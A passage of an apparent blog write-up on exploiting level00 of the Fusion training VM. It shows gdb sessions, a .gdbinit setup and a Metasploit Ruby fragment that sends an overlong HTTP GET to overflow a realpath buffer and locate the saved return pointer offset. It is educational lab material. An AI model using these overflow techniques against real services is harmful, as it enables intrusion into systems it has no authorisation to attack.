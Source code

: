 {% endhighlight %}

Huh, Gdb never caught an exception!?

This is because the process fork'd before calling `parse_http_response` and by default GDB does not attach to the child process. To change this behavior use the following command and send the exploit again: `(gdb) set follow-fork-mode child`

{% highlight bash %}
(gdb) c
Continuing.
[New process 9997]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 9997]
0x41414141 in ?? ()
(gdb)
{% endhighlight %}

Success! The realpath function copied our string of 'A' characters into the resolved buffer causing a buffer overflow. This crashed on `0x41414141` because the the saved return pointer on the stack was overwritten with the string of 'A' characers.

Note: While developing the exploit we will be attaching the debugger many times. Rather than having to enable follow-fork-mode and source the commands each time, they can be placed in a file called .gdbinit. When gdb first starts it checks the local directory for this file and executes each command in it. While developing this exploit my .gdbinit file looks like:

{% highlight bash %}
source /home/fusion/gdb-checksec.py
source /home/fusion/gdb-pattern.py

set follow-fork-mode child
attach <pid>
c
{% endhighlight %}

## Building the exploit
---
Using the Metasploit acyclic pattern we can determine exactly which four 'A' characters overwrote the saved return pointer. Modify the exploit method to use the Metasploit pattern:

{% highlight Ruby %}
...
# Create our payload
filename = "/home/fusion/" + "A" + Rex::Text::pattern_create(500)
sploit = "GET #{filename} HTTP/1.1\r\n" + "B" * 500
...
{% endhighlight %}

Attach gdb to the level00 process again. Enter the `reload` command in msfconsole to reload the modules code and send the exploit.

{% highlight bash %}
Program received signal SIGSEGV, Segmentation fault.
[Switching to process 10162]
0x30654139 in ?? ()
(gdb) pattern_offset eip
127
(gdb)
{% endhighlight %}
